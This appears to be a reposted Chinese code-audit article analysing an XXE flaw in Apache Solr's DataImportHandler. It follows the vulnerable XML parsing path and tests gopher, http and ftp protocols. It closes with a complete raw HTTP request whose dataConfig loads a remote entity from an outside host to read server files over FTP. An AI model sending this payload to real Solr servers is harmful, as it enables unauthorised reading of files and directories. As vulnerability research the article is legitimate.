 
代码审计系列之 Apache-solr 框架

- - -

# 代码审计系列之 Apache-solr 框架

## Apache Solr 框架简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。是一个独立的企业级搜索应用服务器，目前很多企业运用 solr 开源服务。原理大致是文档通过 Http 利用 XML 加到一个搜索集合中。

参考链接：[https://lucene.apache.org/solr/](https://lucene.apache.org/solr/)

## 前言

有几个朋友反映这个框架很多 src 都在使用，也是一个偶然的机会在对某厂商做测试的时候发现这个东西，使用范围还是挺广的，这一课我们就对它进行分析。

## 全版本目录列表/文件读取

根据官网给出来的默认配置如下 web.xml

```plain
<filter-mapping>
<!--
    NOTE: When using multicore, /admin JSP URLs with a core specified
    such as /solr/coreName/admin/stats.jsp get forwarded by a
    RequestDispatcher to /solr/admin/stats.jsp with the specified core
    put into request scope keyed as "org.apache.solr.SolrCore".

    It is unnecessary, and potentially problematic, to have the SolrDispatchFilter
    configured to also filter on forwards.  Do not configure
    this dispatcher as <dispatcher>FORWARD</dispatcher>.
  -->

<filter-name>SolrRequestFilter</filter-name>
<url-pattern>/*</url-pattern>

</filter-mapping>
```

一般这一类框架都是基于 filter 编写的，分析一下 SolrDispatchFilter.classes

在 doFilter 方法里面看到这一句函数调用

```plain
this.handleAdminRequest(req, response, handler2, solrReq);
```

[![](assets/1705890806-48a5d0cf9e23fb4619c52e1cf12a5210.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119153937-e56a12ea-b69d-1.jpg)

跟进 RequestHandlerBase

[![](assets/1705890806-95fecf4e09fff0ccc5a213bee95f1e00.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119153952-eeb0400e-b69d-1.jpg)

走到这里通过 ide 查看一下实现这个方法的类具体有哪些

[![](assets/1705890806-2f00168040e2233d5270c74f33021bc4.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154004-f59f79f2-b69d-1.jpg)

这里重点看其中的一个实现类 DataImportHandler.clasess

[![](assets/1705890806-f18c59f5a1dd778159e395f68e18bc1c.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154014-fbd360e0-b69d-1.jpg)  
看到这里可能有人会问你这个是 debug 模式的，仔细分析，是不是 debug 他都会调用 this.importer.runCmd 方法

DataImporter.classes

[![](assets/1705890806-319d8ce4cb533081e8dbd7996054cda4.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154028-04259812-b69e-1.jpg)

看看这个 loadDataConfig 的具体实现

[![](assets/1705890806-eda479eb2e50fd1615c02fb7673dbbff.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154035-0820db34-b69e-1.jpg)

从这里可以看出来采用的是 DocumentBuilder 进行了 xml 的解析，但是并没有做外部实体禁用操作

肯定是存在 xxe 漏洞，那么进一步测试

**1.采用 gohper 协议**

[![](assets/1705890806-5b59087078b78056616733ce70d36b4d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154046-0ea35248-b69e-1.jpg)

显示不支持此协议，可能与我环境上下文有关系

**2.采用 http 协议**

[![](assets/1705890806-7124314535784819f86355dca1795f0d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154054-137a11a8-b69e-1.jpg)

这里抛异常说是连接断开了，通过后台的日志我们可以发现 http 协议是支持的并且读到了目录

[![](assets/1705890806-f00f54b5fb4e79a339d5e19a5fd8f1a8.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154103-18d86dc0-b69e-1.jpg)

导致这个原因的代码如下：

[![](assets/1705890806-160a6a1b085ef9c442eb57194bcfbdd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154337-74dd4bb8-b69e-1.png)

这个位置有一个 try catch 操作，一旦发现有特殊字符回车换行之类的就抛异常，当发生异常时候 this.config 就是个 null，系统就断开连接，一定程度，规避了这个问题。但是这个不是目的，目的就是要读到文件和目录。

**3.采用 ftp 协议**

构造一个 ftp 的 payload

[![](assets/1705890806-d4a5ac66d5419d9f5f93554c6bff9dfa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154620-d6152bb2-b69e-1.png)

启动一个 ftp 服务

[![](assets/1705890806-e1a03708b723226f38277191c96949ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154451-a104a2d6-b69e-1.png)

发送数据包

[![](assets/1705890806-5238d05994cb8b19fe5488da748d9aff.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154112-1e101ef0-b69e-1.jpg)

成功返回

[![](assets/1705890806-78e90e21d113cab633eef436a1642f30.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154120-2310cd82-b69e-1.jpg)

Payload：

```plain
POST/test1/dataimport HTTP/1.1
Host:localhost:8080
Content-Length:281
Accept:application/json,text/javascript,*/*; q=0.01
Origin: http://localhost:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:8080/
Accept-Language: zh-CN,zh;q=0.8
Cookie: k4la_2132_lastcheckfeed=1%7C1491801899; k4la_2132_nofavfid=1
Connection: close

command=full-import&wt=json&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+root+%5B%3C!ENTITY+%25+remote+SYSTEM+%22http%3A%2F%2Fxxe.boomeye.com%2Fftp_xxe.xml%22%3E%25remote%3B%5D%3E
```

## 总结

1.  对于 solr 的应用程序，每一个实例的访问应该添加授权机制，防止信息泄露和未授权调用
2.  对于 xml 的解析，在官方没有给出修复版本的情况下，采用 waf 解决

原文链接： [https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw](https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw)
